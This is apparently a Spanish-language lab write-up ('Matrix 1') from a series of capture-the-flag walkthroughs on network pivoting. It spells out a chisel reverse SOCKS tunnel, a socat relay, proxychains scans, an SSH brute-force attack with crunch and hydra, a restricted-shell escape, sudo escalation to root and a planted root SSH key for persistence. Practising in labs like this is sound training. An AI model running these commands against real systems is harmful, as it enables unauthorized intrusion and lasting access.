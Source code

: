 ```yaml
---
title: "5. Matrix 1"
description: "Exploración de una máquina Windows y pivoting con Chisel, descubrimiento de información oculta a través de steganography (brainfuck), fuerza bruta para obtener credenciales SSH, escape de shell restringida y escalada de privilegios mediante sudo."
pubDate: 2025-05-20
---
```


[4. Dumbledore](../4-dumbledore)

# Fase de reconocimiento

## Buscamos hosts en la red

````
arp -a
````

No sale nada.
Borramos la tabla arp.

````
arp -d
````

Haremos descubrimiento con un bucle

````
for /L %a in (1,1,254) do @start ping <subnet5>.%a -w 100 -n 2>nul
````

````
arp -a
````

## Pivoting con Chisel

https://github.com/jpillora/chisel Nos descargamos la version Win_amd64
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

2. Copiamos chisel en la maquina Dumbledore

````
copy \<ip2>\smbFolder\chisel.exe chisel.exe
````

3. Nos conectamos al servidor

````
./chisel client <ip2>:6543 R:9999:socks
````

4. Con socat en Nagini lo redirigimos al servidor

````
./socat TCP-LISTEN:6543, fork TCP:<ip1>:1234
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip4' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip5> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip5> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424212524.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 9999

## whatweb

````
proxychains whatweb http://<ip5>:31337
````

Encontramos una pista en base64 que nos lleva a otra pista en lenguaje brainfuck que contiene una contraseña a la que le faltan 2 caracteres.

# Fase de ataque

## Fuerza bruta

### Crunch

Crea diccionario de contraseñas para ataque de fuerza bruta

````
crunch 8 8 -t Kill0r%@ > passwords
````

````
crunch 8 8 -t Kill0r@% >> passwords
````

### Hydra

````
proxychains hydra -l guest -P passwords ssh://<ip5> -t 20 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424215026.png)
\[-\] ==pwned!==

Nos encontramos ante una restricted bash, por lo que cargamos bash:

````
proxychains ssh guest@<ip5> bash
````

Ajustar Terminal

# Privilege Escalation

````
sudo -l
````

Tenemos todos los privilegios por lo que podemos ser root

````
sudo whoami
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
proxychains ssh root@<ip2>
````

# Resumen Técnicas

Crypto Challenge
Creating a password dictionary using crunch
EXTRA: Applying brute force with Hydra by going through a triple SOCKS5 proxy
Escaping from a restrictive shell
Abusing sudoers privilege (Privilege Escalation)
